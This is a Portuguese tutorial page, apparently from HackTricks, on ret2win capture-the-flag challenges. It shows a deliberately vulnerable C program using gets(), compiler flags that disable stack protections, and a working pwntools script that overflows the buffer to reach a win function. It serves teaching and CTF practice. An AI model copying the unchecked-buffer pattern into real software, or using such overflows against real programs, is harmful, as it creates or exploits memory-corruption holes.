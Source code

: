 # Ret2win

{{#include ../../../banners/hacktricks-training.md}}

## Informações Básicas

Desafios **Ret2win** são uma categoria popular em competições de **Capture The Flag (CTF)**, particularmente em tarefas que envolvem **exploração binária**. O objetivo é explorar uma vulnerabilidade em um binário dado para executar uma função específica, não invocada, dentro do binário, frequentemente nomeada como `win`, `flag`, etc. Esta função, quando executada, geralmente imprime uma flag ou uma mensagem de sucesso. O desafio normalmente envolve sobrescrever o **endereço de retorno** na pilha para desviar o fluxo de execução para a função desejada. Aqui está uma explicação mais detalhada com exemplos:

### Exemplo em C

Considere um programa simples em C com uma vulnerabilidade e uma função `win` que pretendemos chamar:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
Para compilar este programa sem proteções de pilha e com **ASLR** desativado, você pode usar o seguinte comando:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
- `-m32`: Compile o programa como um binário de 32 bits (isso é opcional, mas comum em desafios CTF).
- `-fno-stack-protector`: Desativar proteções contra estouros de pilha.
- `-z execstack`: Permitir a execução de código na pilha.
- `-no-pie`: Desativar Executável Independente de Posição para garantir que o endereço da função `win` não mude.
- `-o vulnerable`: Nomear o arquivo de saída como `vulnerable`.

### Exploit em Python usando Pwntools

Para o exploit, usaremos **pwntools**, um poderoso framework CTF para escrever exploits. O script do exploit criará um payload para transbordar o buffer e sobrescrever o endereço de retorno com o endereço da função `win`.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
Para encontrar o endereço da função `win`, você pode usar **gdb**, **objdump** ou qualquer outra ferramenta que permita inspecionar arquivos binários. Por exemplo, com `objdump`, você poderia usar:
```sh
objdump -d vulnerable | grep win
```
Este comando mostrará a você a montagem da função `win`, incluindo seu endereço de início.

O script Python envia uma mensagem cuidadosamente elaborada que, quando processada pela `vulnerable_function`, transborda o buffer e sobrescreve o endereço de retorno na pilha com o endereço de `win`. Quando `vulnerable_function` retorna, em vez de retornar para `main` ou sair, ele salta para `win`, e a mensagem é impressa.

## Proteções

- [**PIE**](../common-binary-protections-and-bypasses/pie/index.html) **deve ser desativado** para que o endereço seja confiável entre execuções ou o endereço onde a função será armazenada não será sempre o mesmo e você precisaria de algum leak para descobrir onde a função win está carregada. Em alguns casos, quando a função que causa o transbordamento é `read` ou similar, você pode fazer uma **Sobrescrita Parcial** de 1 ou 2 bytes para mudar o endereço de retorno para ser a função win. Devido ao funcionamento do ASLR, os últimos três nibble hexadecimais não são randomizados, então há uma **chance de 1/16** (1 nibble) de obter o endereço de retorno correto.
- [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/index.html) também devem ser desativados ou o endereço de retorno EIP comprometido nunca será seguido.

## Outros exemplos & Referências

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
- 32 bits, sem ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
- 64 bits com ASLR, com um leak do endereço do bin
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
- 64 bits, sem ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
- 32 bits, sem ASLR, transbordamento pequeno duplo, primeiro para transbordar a pilha e aumentar o tamanho do segundo transbordamento
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
- 32 bits, relro, sem canário, nx, sem pie, string de formato para sobrescrever o endereço `fflush` com a função win (ret2win)
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
- 64 bits, relro, sem canário, nx, pie. Sobrescrita parcial para chamar a função win (ret2win)

{{#include ../../../banners/hacktricks-training.md}}

